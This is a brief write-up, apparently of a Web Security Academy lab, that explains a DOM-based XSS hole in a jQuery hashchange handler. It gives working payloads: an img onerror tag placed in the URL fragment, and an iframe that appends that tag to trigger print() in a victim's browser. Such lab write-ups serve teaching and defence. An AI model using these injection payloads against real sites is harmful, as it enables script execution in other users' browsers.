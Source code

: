 ## Challenge explaining

ViewSource website to see this code 
                        `$(window).on('hashchange', function(){
                            var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
                            if (post) post.get(0).scrollIntoView();
                        });`

At this script, if value decoded with h2 validated -> page will be scroll to this header.
example: https://0a25003704812defc2f370c400d100ed.web-security-academy.net/#Finding%20Inspiration

-> so change the text fragment to html code https://0a25003704812defc2f370c400d100ed.web-security-academy.net/#<img src=x onerror=alert(1)> 
-> trigger payload.

## Solution
to solve challenge, need to triiger *print()* function in victim browser.
payload using: <iframe src="https://0ae500dd04d979e4c374a390009a00f6.web-security-academy.net/" onload ="this.src=this.src+ '<img src=x onerror=print()>'">
explain: that payload will be put in request body, when victim load exploit url -> src will be run + payload img (as fragment above)